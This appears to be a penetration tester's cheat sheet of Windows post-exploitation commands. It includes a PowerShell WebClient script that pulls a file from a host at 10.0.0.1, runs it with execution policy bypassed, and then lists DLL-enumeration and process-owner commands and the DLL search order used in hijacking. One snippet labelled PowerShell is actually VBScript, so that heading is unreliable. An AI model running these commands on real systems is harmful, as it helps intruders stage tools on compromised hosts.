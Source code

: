 ## Powershell File Download (First thing i download is the wget.exe)
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.0.0.1/my.ini" >>wget.ps1
echo $file = "wget.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
## Execute the above command
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Extract a zip file using Powershell
```
'The location of the zip file.
ZipFile="C:\Test.Zip"
'The folder the contents should be extracted to.
ExtractTo="C:\Test\"

'If the extraction location does not exist create it.
Set fso = CreateObject("Scripting.FileSystemObject")
If NOT fso.FolderExists(ExtractTo) Then
   fso.CreateFolder(ExtractTo)
End If

'Extract the contants of the zip file.
set objShell = CreateObject("Shell.Application")
set FilesInZip=objShell.NameSpace(ZipFile).items
objShell.NameSpace(ExtractTo).CopyHere(FilesInZip)
Set fso = Nothing
Set objShell = Nothing
```

## Get a list of all DLLs currently loaded.
``` 
Listdlls64.exe /AcceptEula
```

## Tell you who a process is running as:
```
Tasklist -v
```


## DLL load order
```
The directory from which the application is loaded (e.g. c:\Program files\Program Name\program.exe)
C:\Windows\System32
C:\Windows\System
C:\Windows
The current working directory
Directories in the system PATH environment variable
Directories in the user PATH environment variable
```
